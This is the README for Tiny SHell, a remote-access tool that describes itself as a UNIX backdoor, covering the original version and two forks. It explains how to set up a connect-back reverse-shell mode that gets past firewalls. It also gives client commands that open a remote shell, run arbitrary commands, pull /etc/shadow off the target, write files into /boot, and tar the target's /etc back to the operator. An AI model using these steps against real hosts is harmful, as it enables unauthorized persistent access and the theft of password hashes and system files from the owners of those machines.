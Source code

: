 ## Tiny SHell - An open-source UNIX backdoor, written by Christophe Devine

### https://github.com/mzpqnxow/tsh

This is a fork of the fork by creaktive with a focus on portability and convenience

  * Restored the portability feature of defaulting to /bin/sh (busybox, AIX, HP-UX, IRIX, many Solaris need this)
  * Added simple way to avoid using a login shell at all (via MINIMAL=1 ./tsh)
  * Added a way to explicitly specify Bash if you really want to (via BASH=1 ./tsh)
  * Since creaktive's default of using /bin/bash was removed in my fork, it caused Debian derived systems to break since dash doesn't handle --login, fixed using /bin/sh -l (via DASH=1 ./tsh)

#### TODO
  * Add statically built executables for MIPS and ARM variants
  * Add a simple tool to hotpatch the passphrase into the binaries


### https://github.com/creaktive/tsh
  * Added iPhone buildability and a usage function
  * Redid the Makefile
  * Upgraded the ciphers


### Original tsh version 0.6

```
                 Tiny SHell - An open-source UNIX backdoor


    Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.
```
